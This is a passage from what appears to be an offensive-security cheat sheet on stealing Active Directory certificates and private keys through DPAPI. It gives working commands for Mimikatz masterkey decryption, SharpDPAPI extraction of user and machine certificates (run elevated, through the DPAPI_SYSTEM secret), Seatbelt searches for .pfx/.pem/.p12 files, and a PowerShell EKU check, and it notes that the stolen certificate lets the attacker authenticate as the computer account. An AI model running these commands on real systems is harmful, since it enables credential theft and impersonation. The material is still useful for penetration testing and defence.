 Decrypt masterkey if user's plaintext password is known with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /sid:<ACCOUNT_SID> /password:Passw0rd!" "exit"
```

Simplify the process with SharpDPAPI providing it a file with one or more `{GUID}:SHA1` masterkey mappings (will output a `.pem` file):

```
Cmd > .\SharpDPAPI.exe certificates /mkfile:C:\Temp\mkeys.txt
```



### DPAPI Machine Keys (THEFT3)

It's not possible to decrypt machine keys using the domain's DPAPI backup key, so the adversary can use the `DPAPI_SYSTEM` LSA secret on the system which is accessible only by the SYSTEM user:

```
# While elevated
Cmd > .\SharpDPAPI.exe certificates /machine
```

After converting the output to `.pfx` and if the appropriate EKU scenario is present, the adversary can use that `.pfx` for domain authentication *as the computer account* (see **PERSIST2**).



### Search for Certificate Files (THEFT4)

Find certificate files lying around with Seatbelt:

```
Cmd > .\Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
Cmd > .\Seatbelt.exe InterestingFiles
```

Some other certificate-related file extensions:

| File Extension             | Description                                                               |
|----------------------------|---------------------------------------------------------------------------|
| `.key`                     | The private key.                                                          |
| `.crt`/`.cer`              | The certificate.                                                          |
| `.csr`                     | Signing request file. Does not contain certificates or keys.              |
| `.jks`/`.keystore`/`.keys` | Java Keystore. May contain certificates + private keys used by Java apps. |

List EKUs for a certificate with PowerShell:

```
PS > $CertPath = "C:\Users\snovvcrash\cert.pfx"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.EnhancedKeyUsageList
```
